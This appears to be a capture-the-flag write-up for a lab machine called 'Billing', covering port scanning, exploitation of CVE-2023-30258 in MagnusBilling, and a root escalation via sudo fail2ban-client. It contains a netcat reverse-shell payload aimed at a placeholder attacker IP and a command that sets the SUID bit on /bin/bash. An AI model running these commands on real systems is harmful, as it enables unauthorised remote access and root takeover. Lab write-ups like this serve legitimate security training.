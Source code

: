 # Billing
### Users
```
asterisk
magnus
```
## Portscan
```
Nmap scan report for 10.10.1.211
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
| http-title:             MagnusBilling        
|_Requested resource was http://10.10.1.211/mbilling/
|_http-server-header: Apache/2.4.56 (Debian)
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
3306/tcp open  mysql    MariaDB 10.3.23 or earlier (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 14 08:07:36 2025 -- 1 IP address (1 host up) scanned in 9.44 seconds
```
## Web Enumeration

### Fuzzing
![fuzzing_results](../pictures/billing/mbill_fuzz.png)

**CMS:** Magnus Billing
* README.md file discloses version
* Vulnerable to **CVE-2023-30258**
* Vulnerable file in **/mbilling/lib/icepay/**

![vulnerable_directory](../pictures/billing/lib_dir.png)

## Foothold / Privilege Escalation

### Initial Foothold
CVE-2023-30258 enables me to get a reverse shell in the machine as the asterisk user.
There are two ways of exploiting this CVE. one way is throught the metasploit module, where you select the target host and your listener host. The other way involves manually intercepting the request from the php file of the Icepay software which is vulnerable to command injection due to the exec() function it performs.

### Exploting CVE-2023-30258
1. Capturing the request
![captured_exploit_request](../pictures/billing/req_capture.png)
* Using burpsuite access /lib/icepay/icepay.php and send the request to the repeater

2. Crafting the payload and obtaining a reverse shell
![reverse_shell_payload](../pictures/billing/rev_shell_payload.png)
* Using ```nc -e /bin/bash <ATTACKER_IP> <LISTEN_PORT>``` as the payload, I can use the exploit to get a reverse shell into the machine

### Privilege Escalation
User asterisk has sudo permissions on the /usr/bin/fail2ban-client
![asterisk_sudo_permissions](../pictures/billing/asterisk_sudo_perms.png)

I googled around and found the article mentioned below on techniques for escalating priveleges using fail2ban-client.
I wasn't able to escalate privileges how the article explained since I need write privileges to the iptables-multiport.conf file. But, I am still able to use fail2ban-client as sudo.
I parsed through the fail2ban-client help menu and saw an interesting command.

![privesc_command](../pictures/billing/privesc_command.png)

This enables me to manually update the actionban command and perform another command when I ban an IP with fail2ban-client.
To do this I entered:\
```sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban 'chmod +s /bin/bash' ```
* This command sets the actionban to giving the /bin/bash binary a SUID bit whenever I ban an IP address

After setting the custom action that will perform after banning an IP, I just had to ban an IP address and the /bin/bash binary will have a SUID bit.\
```sudo /usr/bin/fail2ban-client set sshd banip 8.8.8.8```

![command_for_privesc](../pictures/billing/privesc.png)

After banning an IP, I can run /bin/bash as the privileged user and get the root shell.

![root_shell](../pictures/billing/root.png)

## Journal
https://juggernaut-sec.com/fail2ban-lpe/
* Article for privilege escalation via fail2ban